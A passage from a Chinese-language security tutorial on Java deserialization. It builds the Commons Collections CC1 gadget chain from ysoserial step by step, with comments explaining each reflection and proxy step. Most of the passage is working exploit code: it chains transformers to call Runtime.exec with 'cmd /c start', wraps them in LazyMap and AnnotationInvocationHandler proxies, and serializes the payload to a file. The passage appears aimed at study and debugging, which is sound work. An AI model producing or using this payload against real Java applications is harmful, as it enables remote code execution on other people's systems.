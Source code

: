 ```java
            target.getClass().getInterfaces(),
            handler
        );
        // 使用代理对象，直接通过MyInvocationHandler调用到了target中的invoke方法
        proxy.sayHello("World");
    }
}

```

### 构造完整POC(基于ysoserial)

ysoserial中写了一些工具类来方便使用，但是这里直接把ysoserial中的代码择出来了，以便于调试学习，也对代码进行了小的调整，但区别不大。

```java
public static void cc1bySerial() throws Exception {
    String execArgs = "cmd /c start";
    final Transformer transformerChain = new ChainedTransformer(
            new Transformer[]{ new ConstantTransformer(1) });
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {
                    String.class, Class[].class }, new Object[] {
                    "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {
                    Object.class, Object[].class }, new Object[] {
                    null, new Object[0] }),
            new InvokerTransformer("exec",
                    new Class[] { String.class }, new Object[]{execArgs}),
            new ConstantTransformer(1) };
    // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
    Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
    Field iTransformers = transformer.getDeclaredField("iTransformers");
    iTransformers.setAccessible(true);
    iTransformers.set(transformerChain, transformers);
    // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
    final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
    // 首先通过反射获取 AnnotationInvocationHandler 类的构造函数，并且确保这个构造函数可以被访问。然后通过类名加载 AnnotationInvocationHandler 类，获取该类的第一个构造函数。由于 AnnotationInvocationHandler 类的构造函数可能是私有的，调用 setAccessible(true) 可以让我们绕过 Java 的访问控制机制，允许通过反射创建其实例。
    final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
    ctor.setAccessible(true);
    // 使用反射创建一个 AnnotationInvocationHandler 的实例，并将 Target.class 和 lazyMap 作为构造函数的参数传入，其中 Documented.class 是 AnnotationInvocationHandler 的第一个参数(其实用什么都行，找任意一个有属性的注解都可以)，lazyMap 是第二个参数。得到的handler是一个实现了 InvocationHandler 接口的实例，用于处理方法调用。此时，handler可以通过 lazyMap 进行一些动态行为处理，比如懒加载或代理。
    InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
    // 通过 Proxy.newProxyInstance() 创建 LazyMap 的动态代理实例，代理对象会将方法调用委托给我们之前创建的 handler。
    // LazyMap.class.getClassLoader()：指定代理类的类加载器为 LazyMap 的类加载器。
    // LazyMap.class.getInterfaces()：指定代理类需要实现的接口，这里是 LazyMap 接口。
    // handler：指定一个 InvocationHandler，这个 handler 会拦截对 LazyMap 代理实例的方法调用并执行自定义的逻辑。
    Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler);
    // 再次使用反射，创建一个新的 AnnotationInvocationHandler 实例，并将 Documented.class 和 mapProxy 作为构造函数的参数，mapProxy 是上一步创建的 LazyMap 的动态代理对象，在这里作为参数传递给 AnnotationInvocationHandler，所以 AnnotationInvocationHandler 会被赋予一个处理懒加载行为的代理对象。
    // 这意味着 AnnotationInvocationHandler 现在会在某些方法调用时与 mapProxy 交互，而 mapProxy 的方法调用会被委托给我们提供的 handler，后者在内部可以处理懒加载或其他定制的行为。
    InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
    FileOutputStream fos = new FileOutputStream(serialFileName);
    ObjectOutputStream oos = new ObjectOutputStream(fos);
    oos.writeObject(invocationHandler);
```